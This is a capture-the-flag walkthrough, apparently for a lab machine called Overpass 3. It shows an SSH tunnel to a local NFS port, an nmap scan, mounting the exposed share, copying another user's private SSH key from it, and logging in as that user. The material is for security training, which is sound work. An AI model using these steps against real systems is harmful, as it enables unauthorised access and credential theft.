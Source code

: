 > **SSH Tunneling Phase**
> 

`ssh -L 2049:localhost:2049 -o MACs=hmac-sha2-256 paradox@overpasshosting.thm -p 22`

```bash
Last login: Fri Sep 13 15:35:47 2024 from 10.2.37.37
[paradox@ip-10-10-125-204 ~]$ 
```

`nmap -sV -sC -T4 -A -Pn -p 2049 -oN nmap_local.txt 127.0.0.1`

```bash
PORT     STATE SERVICE VERSION
2049/tcp open  nfs     3-4 (RPC #100003)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.7 - 3.10 (96%), Linux 3.11 - 3.14 (95%), Linux 3.19 (95%), Linux 3.8 - 4.14 (95%), Linux 3.16 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 0 hops
```

> **NFS Mount Phase**
> 

`mkdir nfsmount`

`sudo mount -v -t nfs localhost: nfsmount` 

```bash
mount.nfs: timeout set for Fri Sep 13 10:56:25 2024
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'
```

`ls -lsa nfsmount`

```bash
0 drwx------ 3 kali kali  112 Nov 17  2020 .
4 drwxr-xr-x 3 root root 4096 Sep 13 10:54 ..
0 lrwxrwxrwx 1 root root    9 Nov  8  2020 .bash_history -> /dev/null
4 -rw-r--r-- 1 kali kali   18 Nov  8  2019 .bash_logout
4 -rw-r--r-- 1 kali kali  141 Nov  8  2019 .bash_profile
4 -rw-r--r-- 1 kali kali  312 Nov  8  2019 .bashrc
0 drwx------ 2 kali kali   61 Nov  7  2020 .ssh
4 -rw------- 1 kali kali   38 Nov 17  2020 user.flag
```

> **SSH Connection with ID RSA**
> 

`cd nfsmount/.ssh`

`cp id_rsa /root/Desktop/CyberLearningFramework/overpass3hosting/jamesidrsa`

`ssh -o MACs=hmac-sha2-256 james@overpasshosting.thm -p 22 -i jamesidrsa`

```bash
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@ip-10-10-125-204 ~]$ whoami
james
[james@ip-10-10-125-204 ~]$ pwd
/home/james
[james@ip-10-10-125-204 ~]$ id
uid=1000(james) gid=1000(james) groups=1000(james)
[james@ip-10-10-125-204 ~]$ 

```
